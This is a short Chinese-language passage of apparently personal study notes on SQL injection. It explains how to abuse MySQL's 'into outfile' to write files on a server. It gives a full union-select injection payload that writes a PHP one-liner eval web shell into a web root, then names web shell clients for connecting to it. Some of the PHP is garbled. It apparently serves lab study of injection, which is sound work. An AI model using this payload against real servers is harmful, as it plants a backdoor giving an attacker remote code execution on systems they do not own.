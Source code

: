     
    if __name__ == '__main__':
        main()
    





### 文件上传

#### 上传要点

1. show variables like '%secure%';用来查看mysql是否有读写文件的权限

2. 数据库的file权限规定了数据库用户是否有权限，向操作系统内写入和读取已存在的权限

3. into outfile命令使用的环境：必须知道一个，服务器上可以写入文件的文件夹的完整路径

#### 常用函数

1. `into dumpfile()`

2. `into outfile()`
3. `load_file()`

#### 文件上传指令

`?id=-1')) union select 1,"<?php @eval($ PoST['password');?>",3 into outfile"D:\\phpstudy_pro\\www\\ben.php"--+`

`<?php @eval($ POST['password']);?>`为一句话木马 //`<?php eval ($_POST[0]);`

password为预留密码`D:\\phpstudy_pro\\www`\\为文件路径,`ben.php`为新插入的文件名

上传成功之后可以使用蚁剑或中国菜刀进行查看

// 但这个方法似乎要本地路径才可以使用
